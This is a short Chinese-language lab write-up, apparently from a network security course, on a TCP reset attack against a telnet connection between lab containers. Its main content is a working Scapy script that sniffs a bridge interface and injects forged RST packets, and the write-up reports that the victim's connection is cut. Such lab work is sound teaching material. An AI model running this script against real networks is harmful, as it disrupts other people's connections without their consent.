


#  TCP Reset

## 任务 2：对 telnet 连接的 TCP 复位攻击

直接通过自动化手段发起攻击，我们得到网桥名称：



编写 Python 程序：

```python
#!/usr/bin/env python3
from scapy.all import *

def spoof_pkt(pkt):
    ip = IP(src=pkt[IP].src, dst=pkt[IP].dst)
    tcp = TCP(sport=23, dport=pkt[TCP].dport, flags="R", seq=pkt[TCP].seq+1)
    pkt = ip/tcp
    ls(pkt)
    send(pkt, verbose=0)

f = f'tcp and src host 10.9.0.5'
pkt = sniff(iface='br-c0763f304e87', filter=f, prn=spoof_pkt)
```

运行程序，并在用户中尝试连接受害者容器，连接会被中断：


